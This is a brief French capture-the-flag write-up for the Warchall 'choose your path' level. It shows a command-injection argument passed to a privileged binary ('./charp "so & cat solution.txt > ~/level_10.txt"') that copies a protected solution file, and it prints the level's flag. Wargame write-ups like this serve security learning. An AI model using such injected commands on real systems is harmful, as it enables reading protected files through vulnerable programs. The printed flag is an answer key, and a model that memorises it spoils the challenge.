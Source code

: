 # 10_choose_your_path

`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ls
`````
charp  charp.c  compile.sh  solution.txt

Ces commandes peuvent transmettre le contenu de fichier "solution.txt" à la fin de fichier "level_10.txt" (repertoire personnel) en presence de l'execution avec "./charp"
`````sh
rantoo@warchall:/home/level/10_choose_your_path$ ./charp "so & cat solution.txt > ~/level_10.txt"
`````
=> allez dans la repertoire personnel et tape "ls"
Après,
````sh
rantoo@warchall:~$ cat level_10.txt
````
#!/C:\windows\system32\ed

Congratulations hacker,

You have achieved what only a few achieve.
Kinda.

The flag or solution for this challenge is: EpidermalGlance


The passkey is : **EpidermalGlance**
